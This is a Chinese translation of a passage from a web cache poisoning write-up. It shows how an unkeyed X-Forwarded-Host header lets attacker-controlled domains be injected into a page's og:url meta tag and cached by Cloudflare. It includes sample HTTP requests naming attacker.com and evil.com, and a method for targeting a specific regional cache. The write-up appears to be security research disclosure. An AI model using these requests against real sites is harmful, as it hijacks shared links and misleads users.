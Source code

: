 ### Open Graph 劫持
在另一个站点上，未加密的输入专门影响Open Graph URL：
```
GET /en HTTP/1.1
Host: redacted.net
X-Forwarded-Host: attacker.com

HTTP/1.1 200 OK
Cache-Control: max-age=0, private, must-revalidate
…
<meta property="og:url" content='https://attacker.com/en'/>
```
[Open Graph](http://ogp.me/)是一种由Facebook创建的协议，允许网站所有者决定在社交媒体上共享内容时会发生什么。我们在这里被劫持的og：url参数有效地覆盖了共享的URL，因此任何共享中毒页面的人实际上最终都会共享我们选择的内容。

您可能已经注意到，应用程序设置'Cache-Control：private'，而Cloudflare拒绝缓存此类响应。幸运的是，网站上的其他页面明确启用了缓存：
```
GET /popularPage HTTP/1.1
Host: redacted.net
X-Forwarded-Host: evil.com

HTTP/1.1 200 OK
Cache-Control: public, max-age=14400
Set-Cookie: session_id=942…
CF-Cache-Status: MISS
```
这里的'CF-Cache-Status'标头是Cloudflare正在考虑缓存此响应的指示器，但尽管如此，响应从未实际缓存过。我推测Cloudflare拒绝缓存这个可能与session_id cookie有关，并且使用该cookie重试：
```
GET /popularPage HTTP/1.1
Host: redacted.net
Cookie: session_id=942…;
X-Forwarded-Host: attacker.com

HTTP/1.1 200 OK
Cache-Control: public, max-age=14400
CF-Cache-Status: HIT
…
<meta property="og:url" 
content='https://attacker.com/…
```
这最终得到了缓存的响应，虽然后来证明我可以跳过猜测并阅读[Cloudflare的缓存文档](https://blog.cloudflare.com/understanding-our-cache-and-the-web-cache-deception-attack/)。

尽管有反应被缓存，但“分享”结果仍然没有中毒; Facebook显然没有达到我中毒的特定Cloudflare缓存。为了确定我需要中毒哪个缓存，我利用了所有Cloudflare站点上的一个有用的调试功能 - `/cdn-cgi/trace`：
![6](https://xzfile.aliyuncs.com/media/upload/picture/20180812170120-478102bc-9e0e-1.png "6")

在这里，`colo = AMS`行显示Facebook已经通过Amsterdam的缓存访问了waf.party。目标网站是通过 Atlanta访问的，所以我在那里租了2美元/月的VPS并再次尝试中毒：

![7](https://xzfile.aliyuncs.com/media/upload/picture/20180812170132-4ec96104-9e0e-1.png "7")
